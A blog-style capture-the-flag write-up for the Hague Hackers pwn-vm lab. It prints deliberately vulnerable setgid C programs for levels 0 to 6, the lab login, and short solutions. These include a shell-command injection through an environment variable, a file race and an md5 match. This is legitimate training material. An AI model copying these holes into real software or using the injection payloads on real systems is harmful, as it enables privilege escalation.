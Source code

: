 ```yaml
---
layout: post
title: "Hague Hackers pwn-vm"
date: 2024-07-02 +0200
categories: jekyll update
---
```

![](https://ketho.github.io/data/img/haguehackers.png)

These are the `pwn-vm` challenges from Hague Hackers.

- 11 challenges
- `user: pwn`
- `pass: pwn123`
- `./levelup` to continue to next challenge, requires restarting the ssh session

## level 0
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    int gid = getegid();
    if(argc < 3) {
        puts("USAGE: ./level0 arg1 arg2");
        exit(0);
    }
    if((strncmp(argv[1],"ea5y_chaLL3ng3", 14))||(strncmp(argv[2],"eaSy_p34sy", 10))){
        puts("Try again!");
    }
    else {
        if(getenv("level0")){
            setresgid(gid,gid,gid);
            execve("/bin/bash", 0, 0);
        }
        else {
            puts("Maybe next time..");
        }
    }
    return 0;
}
```
- `export level0=test`
- https://stackoverflow.com/questions/234742/setting-environment-variables-in-linux-using-bash

## level 1
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char command[60];
    int gid = getegid();
    snprintf(command, "/bin/print %s !", getenv("level1"), 60);
    setresgid(gid,gid,gid);
    system(command);
    return 0;
```
- `export level1='0; /bin/sh'`

## level 2
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
int sanitycheck(char * s) {
    if((strchr(s, ';'))||(strchr(s, '&'))||(strchr(s, '|'))||(strchr(s, '<'))||(strchr(s, '>'))){
        puts("Illegal");
        exit(1);
    }
    return 0;
}
int main(int argc, char * argv[]){
    char command[60];
    int gid = getegid();
    if(argc < 2) {
        puts("USAGE: ./level2 arg1");
        exit(0);
    }
    sanitycheck(argv[1]);
    snprintf(command,60, "/usr/bin/choom -n %s", argv[1]);
    printf("Executing command: %s", command);
    setresgid(gid,gid,gid);
    execve("/bin/bash", 0, 0);
    return 0;
}
```
- `./level2 "a"`
- supposed to set value of 0 to a process and launch /bin/sh

## level 3
level3.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char * argv[]){
    FILE* fp;
    char command[64];
    char output[20];
    int gid = getegid();
    if(argc < 3) {
        puts("USAGE: ./level0 arg1 arg2");
        exit(0);
    }
    snprintf(command, 64, "/usr/bin/python3 ./script.py %s %s 2>/dev/null", argv[1], argv[2]);
    fp = popen(command, "r");
    if (fp == NULL) {
        puts("Failed to run command");
        exit(1);
    }
    fgets(output, sizeof(output), fp);
    puts(output);
    if(!strncmp(output, "301", 3)){
        setresgid(gid,gid,gid);
        execve("/bin/bash", 0, 0);
    }
}
```

script.py
```py
import requests
import sys
URL = "http://"+sys.argv[1]+":"+sys.argv[2]
r = requests.get(URL)
print(r.status_code)
```
- `./level3 192.168.56.1 3000`

## level 4
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char * argv[]){
    FILE* fd;
    char out[20];
    int gid = getegid();
    fd = fopen("./level4_x78ezf", "w+");
    if (fd == NULL) {
        puts("Failed to open file");
        exit(1);
    }
    fprintf(fd,"%s","level4_is_fUn");
    fclose(fd);
    sleep(2);
    fd = fopen("./level4_x78ezf", "r");
    fgets(out,20, fd);
    puts(out);
    if(!strncmp(out, "level4_1s_4maZinG", 17)){
        setresgid(gid,gid,gid);
        execve("/bin/bash", 0, 0);
    }
    fclose(fd);
    return 0;
}
```
- run `./level4` first
- in second terminal `echo level4_1s_4maZinG > level4_x78ezf`

## level 5
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>

int main(int argc, char * argv[]){
    FILE* fp;
    char command[64];
    char output[32];
    int gid = getegid();
    if(argc < 2) {
        puts("USAGE: ./level5 arg1");
        exit(0);
    }
    snprintf(command, 64, "/usr/bin/md5sum %s 2>/dev/null", argv[1]);
    fp = popen(command, "r");
    fgets(output, 33, fp);
    puts(output);
    if(!strncmp(output, "e522e97c1e99a41f693aec0fb3c127cb", 32)){
        puts("Great!");
        setresgid(gid,gid,gid);
        execve("/bin/bash", 0, 0);
    }
    return 0;
}
```
- show all md5sums of files in current directory
- `find images -type f -exec md5sum {} +`

## level 6
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>

int main(int argc, char * argv[]){
    int gid = getegid();
    setresgid(gid,gid,gid);
    execve("/home/pwn/level6/whoami", 0, 0);
    return 0;
}
```
